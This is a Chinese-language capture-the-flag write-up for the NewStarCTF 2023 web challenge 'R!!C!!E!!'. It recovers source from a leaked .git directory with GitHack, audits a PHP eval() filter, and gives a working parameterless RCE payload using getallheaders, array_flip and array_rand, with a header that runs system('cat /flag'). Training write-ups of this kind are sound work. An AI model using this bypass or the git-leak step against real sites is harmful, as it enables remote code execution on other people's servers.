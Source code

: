 ```yaml
---
title: NewStarCTF 2023 R!!C!!E!!
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

进入靶机网页，只有一句话

```
Welcome To NewstarCTF 2023,Nothing here,or you wanna to find some leaked information?
```

看 F12 也没有什么泄露的内容，那么就有可能是 Git 泄露，可以使用 GitHack 获得靶机网页 `.git` 目录下的内容

```
python GitHack.py http://91df782c-9931-4bf4-bf3f-1cb2907c7750.node4.buuoj.cn:81/.git
```

得到关键文件 `bo0g1pop.php`（在输入上面的命令之前，强烈建议关闭火绒，否则直接被杀了）

```php
<?php
highlight_file(__FILE__);
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) {
    if(!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])){
        eval($_GET['star']);
    }
}
```

## 代码审计

先看第一个 if

```
preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])
```

看不太懂，问问 ChatGPT

大意是匹配这样的字符串：`functionName(argument1, argument2, ...)`，然后 `replace()` 函数会把里面的参数全去掉，换句话说，这次的 RCE 是无参数的（比如使用 `echo("Hello")`，里面的 `"Hello"` 就会被去掉）

再来看第二个 if

```
!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])
```

这里甚至禁用掉了你能想到的扫盘方法

但我们可以换一个思路，既然不能有参数，还不能用以上的命令，那么我们可以尝试从别的地方读取参数

## 构思攻入方法

有一个函数 `getallheaders()` 恰好满足我的需求，比如我可以写一个 `hack: system("cat /flag")`，把他加入到 headers 里，后续将这个 `hack` 的值作为命令

但是 `getallheaders()` 取得的是数组，换句话说，我需要不依赖任何参数取得其中的值才行

但是这道题受限于无参数的 RCE，我们还需要再换一个思路

有一个函数叫 `array_rand()`，这个是随机取得一个数组中的键，注意是键，不是值，这就很容易让人联想到另一个函数了 `array_flip()`，这个函数的作用是使得数组内的键值调换，原来的值变成键，原来的键变成值

那我们就可以这么写 `star` 参数了

```
?star=eval(array_rand(array_flip(getallheaders())));
```

然后我们在 headers 中再写一个 `hack: system("cat /flag");`，准备碰运气

## 获取 Flag

最好使用 HackBar 完成这次的所有操作，因为 `array_rand()`，是随机的，我们只需要在 HackBar 上多按几次 EXECUTE 即可

![](https://z1.ax1x.com/2023/10/13/pipi5tS.png)

最后附上 Http 请求代码

```http
GET /bo0g1pop.php/?star=eval(array_rand(array_flip(getallheaders()))); HTTP/1.1
Hack: system("cat /flag");
```

得到 Flag 为 `flag{9bbd1239-1a20-43b3-9d2c-0c893ad1716f}`